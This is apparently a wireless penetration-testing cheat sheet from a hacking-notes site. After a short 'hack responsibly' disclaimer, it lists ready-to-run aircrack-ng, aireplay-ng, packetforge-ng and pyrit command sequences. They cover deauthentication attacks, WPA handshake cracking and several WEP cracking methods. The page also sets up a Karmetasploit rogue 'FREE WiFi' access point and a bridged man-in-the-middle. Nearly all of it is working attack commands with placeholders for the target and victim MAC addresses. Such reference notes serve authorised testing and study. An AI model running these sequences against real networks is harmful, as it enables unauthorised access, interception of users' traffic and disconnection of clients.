 # Wireless

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

[https://www.bettercap.org/](https://www.bettercap.org/)

[https://miloserdov.org/?p=1112\#1](https://miloserdov.org/?p=1112#1)

Nothing here yet...please feel free to contribute at [https://www.github.com/zweilosec](https://github.com/zweilosec)



## Choosing a wireless module

You must choose a wireless module that has a chipset that is capable of being put in monitor mode.  The site below has a fairly comprehensive list of adapters that support this.  

[https://miloserdov.org/?p=2196](https://miloserdov.org/?p=2196)

## **Setting TX \(transmit\) POWER**

`iw reg set BO`  
`iwconfig wlan0 txpower 25`

## **Cracking WPA**

`airmon-ng start wlan0`  
`airodump-ng -c $channel –bssid $AP_MAC -w $out_file wlan0mon`  
`aireplay-ng -0 1 -a $AP_MAC -c $victim_MAC wlan0mon` \#{deauth attack}  
`aircrack-ng -0 -w $pass_list $cap_file`

## **Cracking WEP**

###  **with Connected Clients**

`airmon-ng start wlan0 #[$channel]`  
`airodump-ng -c $channel –bssid $AP_MAC -w $out_file wlan0mon`  
`aireplay-ng -1 0 -e $ESSID -a $AP_MAC -h $host_MAC wlan0mon` \#{fake authentication}  
`aireplay-ng -3 -b $AP_MAC -h $host_MAC wlan0mon` \#{ARP replay attack}`aireplay-ng -0 1 -a $AP_MAC -c $victim_client wlan0mon` \#{deauth attack - as needed}

### **via a Client**

`airmon-ng start wlan0 #[$channel]`  
`airodump-ng -c $channel –bssid $AP_MAC -w $out_file wlan0mon`  
aireplay-ng -1 0 -e \(ESSID\) -a \(AP MAC\) -h \(OUR MAC\) wlan0mon {fake authentication}  
aireplay-ng -2 -b \(AP MAC\) -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon  
aireplay-ng -2 -r \(replay cap file\) wlan0mon {inject using cap file}  
aircrack-ng -0 -z\(PTW\) -n 64\(64bit\) filename.cap

### **ARP amplification**

airmon-ng start wlan0 \( channel\)  
airodump-ng -c \(channel\) –bssid \(AP MAC\) -w \(filename\) wlan0mon  
aireplay-ng -1 500 -q 8 -a \(AP MAC\) wlan0mon  
areplay-ng -5 -b \(AP MAC\) -h \(OUR MAC\) wlan0mon  
packetforge-ng -0 -a \(AP MAC\) -h \(OUR MAC\) -k 255.255.255.255 -l 255.255.255.255 -y \(FRAGMENT.xor\)   -w \(filename.cap\)  
tcpdump -n -vvv -e -s0 -r \(replay\_dec.\#\#\#\#\#.cap\)  
packetforge-ng -0 -a \(AP MAC\) -h \(OUR MAC\) -k \(destination IP\) -l \(source IP\) -y \(FRAGMENT.xor\) -w \(filename.cap\)  
aireplay-ng -2 -r \(filename.cap\) wlan0mon

### **Cracking WEP /w shared key AUTH**

airmon-ng start wlan0 \( channel\)  
airodump-ng -c \(channel\) –bssid \(AP MAC\) -w \(filename\) wlan0mon  
~this will error out~aireplay-ng -1 0 -e \(ESSID\) -a \(AP MAC\) -h \(OUR MAC\) wlan0mon {fake authentication}  
aireplay-ng -0 1 -a \(AP MAC\) -c \(VIC CLIENT\) wlan0mon {deauthentication attack}  
aireplay-ng -1 60 -e \(ESSID\) -y \(sharedkeyfile\) -a \(AP MAC\) -h \(OUR MAC\) wlan0mon {fake authentication /w PRGA xor file}  
aireplay-ng -3 -b \(AP MAC\) -h \(OUR MAC\) wlan0mon {ARP replay attack}  
aireplay-ng -0 1 -a \(AP MAC\) -c \(VIC CLIENT\) wlan0mon {deauthentication attack}  
aircrack-ng -0 -z\(PTW\) -n 64\(64bit\) filename.cap

### **Cracking a Clientless WEP \(FRAG AND KOREK\)**

#### _{FRAG}_

airmon-ng start wlan0 \(channel\)  
airodump-ng -c \(channel\) –bssid \(AP MAC\) -w \(filename\) wlan0mon  
aireplay-ng -1 60 -e \(ESSID\) -a \(AP MAC\) -h \(OUR MAC\) wlan0mon {fake authentication}  
~aireplay-ng -5 \(frag attack\) -b \(AP MAC\) -h \(OUR MAC\) wlan0mon  
packetforge-ng -0 -a \(APMAC\) -h \(OUR MAC\) -l 255.255.255.255 -k 255.255.255.255 -y \(fragment filename\) -w filename.cap  
tcpdump -n -vvv -e -s0 -r filename.cap {TEST}  
aireplay-ng -2 -r filename.cap wlan0mon

#### _{KOREK}_

~aireplay-ng -4 -b \(AP MAC\) -h \(OUR MAC\) wlan0mon  
tcpdump -s 0 -s -e -r replayfilename.cap  
packetforge-ng -0 -a \(APMAC\) -h \(OUR MAC\) -l 255.255.255.255\(source IP\) -k 255.255.255.255\(dest IP\) -y \(fragmentfilename xor\) -w filename.cap  
aireplay-ng -2 -r filename.cap wlan0mon  
aircrack-ng -0 filename.cap

## **Karmetasploit**

airbase-ng -c \(channel\) -P -C 60 -e “FREE WiFi” -v wlan0mon  
ifconfig at0 up 10.0.0.1/24  
mkdir -p /var/run/dhcpd  
chown -R dhcpd:dhcpd /var/run/dhcpd  
touch /var/lib/dhcp3/dhcpd.leases  
cat dhcpd.conf  
touch /tmp/dhcp.log  
chown dhcpd:dhcpd /tmp/dhcp.log  
dhcpd3 -f -cf /tmp/dhcpd.conf -pf /var/run/dhcpd/pid -lf /tmp/dhcp.log at0  
msfconsole -r /root/karma.rc

## **MISC**

### **Bridge-control man in the middle**

airebase-ng -c 3 -e “FREE WiFi” wlan0mon  
brctl addbr hacker\(interface name\)  
brctl addif hacker eth0  
brctl addif hacker at0  
ifconfig eth0 0.0.0.0 up  
ifconfig at0 0.0.0.0 up  
ifconfig hacker 192.168.1.8 up  
ifconfig hacker  
echo 1 &gt; /proc/sys/net/ipv4/ip\_forward

### **pyrit DB attacks**

pyrit eval  
pyrit -i \(wordlist\) import\_passwords  
pyrit -e \(essid\) create\_essid  
pyrit batch  
pyrit batch -r \(capturefile\) -b\(AP MAC\) attack\_db

**pyrit strip**  
pyrit -r \(capturefile\) -o \(capturefile output\) strip

**pyrit dictionary attack**  
pyrit -r \(capturefile\) -i \(/pathtowordlist\) -b \(AP MAC\) attack\_passthrough

### **airgraph-ng**

airgraph-ng -i filename.csv -g CAPR -o outputfilename.png  
eog outputfilename.png  
airgraph-ng -i filename.csv -g CPG -o outputfilename.png  
eog outputfilename.png

### **airdecap-ng**

airdecap-ng -b \(vic ap\) outputfilename.cap  
wireshark outputfilename.cap  
airdecap-ng -w \(WEP KEY\) \(capturefile.cap\)  
wireshark capturefile-DEC.cap  
airdecap-ng -e \(ESSID VIC\) -p \(WPA PASSWORD\) \(capturefile.cap\)  
wireshark capturefile-dec.cap


